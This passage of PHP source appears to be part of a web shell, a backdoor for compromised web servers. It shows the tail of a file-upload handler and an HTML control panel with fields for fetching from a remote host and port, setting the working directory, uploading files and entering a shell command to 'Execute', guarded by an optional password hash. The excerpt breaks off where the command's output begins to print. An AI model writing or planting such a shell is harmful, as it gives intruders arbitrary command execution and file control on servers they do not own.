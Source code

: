 ```php
		$status .= "${ok} Uploaded file <i>${dest}</i> (" . $_FILES['upload']['size'] . " bytes)<br />";
	}
}
?>

<form method="post" action="<?php e($url); ?>"
	<?php if (ini_get('file_uploads')): ?>
		enctype="multipart/form-data"
	<?php endif; ?>
	>
	<?php if (! empty($passhash)): ?>
		<input type="hidden" name="auth" value="<?php e($auth); ?>">
	<?php endif; ?>
	<table border="0">
		<?php if (! empty($fetch_func)): ?>
			<tr><td>
				<b>Fetch:</b>
			</td><td>
				host: <input type="text" size="15" id="fetch_host" name="fetch_host" value="<?php e($fetch_host); ?>">
				port: <input type="text" size="4" id="fetch_port" name="fetch_port" value="<?php e($fetch_port); ?>">
				path: <input type="text" size="40" id="fetch_path" name="fetch_path" value="">
			</td></tr>
		<?php endif; ?>
		<tr><td>
			<b>CWD:</b>
		</td><td>
			<input type="text" size="50" id="cwd" name="cwd" value="<?php e($cwd); ?>">
			<?php if (ini_get('file_uploads')): ?>
				<b>Upload:</b> <input type="file" id="upload" name="upload">
			<?php endif; ?>
		</td></tr>
		<tr><td>
			<b>Cmd:</b>
		</td><td>
			<input type="text" size="80" id="cmd" name="cmd" value="<?php e($cmd); ?>">
		</td></tr>
		<tr><td>
		</td><td>
			<sup><a href="#" onclick="cmd.value=''; cmd.focus(); return false;">Clear cmd</a></sup>
		</td></tr>
		<tr><td colspan="2" style="text-align: center;">
			<input type="submit" value="Execute" style="text-align: right;">
		</td></tr>
	</table>
	
</form>
<hr />

<?php
if (! empty($status))
{
	echo "<p>${status}</p>";
}

echo "<pre>";
if (! empty($cmd))
{
	echo "<b>";
	e($cmd);
	echo "</b>\n";
```
